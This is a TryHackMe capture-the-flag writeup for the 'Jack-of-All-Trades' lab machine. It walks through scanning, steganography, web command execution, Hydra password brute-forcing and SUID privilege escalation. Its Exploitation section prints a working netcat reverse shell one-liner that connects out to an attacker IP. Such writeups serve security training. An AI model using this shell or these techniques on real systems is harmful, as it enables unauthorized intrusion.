

# Jack-of-All-Trades TryHackMe Writeup
### Level: `Easy` | OS: `Linux`


## Scanning
We performed an nmap scan of all ports, with scripts and software versions.



## Enumeration
We tried to access the website from the browser, but it will not open.


But, if we try **curl** we will see the content of the site, there is a string in **base64**.


Decode the message, you will get a password.


We access the file *"recovery.php "*, there we will have to decode another message, this time it will be more complicated.


We access the site with the hint, we see a famous *"dinosaur"*. After reading the message and the image, we already sense what we have to do.

#### Download stego.jpg image


Let's try the other image... And we got credentials.


Searching through **Google**, we found this [tutorial](https://www.ryadel.com/en/firefox-this-address-is-restricted-override-fix-port/
) that explains how to change the port to browse **Firefox**, so we follow the guide, access the file *"recovery.php"* and use the credentials obtained.


## Exploitation
We make a small one and check that we can execute commands.


#### Reverse shell
```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.11.30.149 443 >/tmp/f
```
We will use the above *payload + URL-Encode* to obtain a shell on the victim machine.


We access the *"/home/"* and find a list of passwords for the user *"Jack"*.


We use the **Hydra** tool to obtain the correct password in just seconds.


We access by **SSH**, we enumerate a file *"user.jpg"*. We transfer it to our machine and read the user flag.


#### Evidence user flag


## Abuse of privileges
We launch the **lse.sh** tool, enumerate the uncommon SUID *strings* binary.


We look for information, we see that it is possible to load a variable with an arbitrary path and to be able to execute **strings** to read its content. 

First, I tried to read the file *"id_rsa"* of the root user, but it does not exist. So a quick option is to read the flag directly.


---
## About

David Utón is Penetration Tester and security auditor for web and mobiles applications, perimeter networks, internal and industrial corporate infrastructures, and wireless networks.

#### Contacted on:

 [David-Uton](https://www.linkedin.com/in/david-uton/)
 [@David_Uton](https://twitter.com/David_Uton)
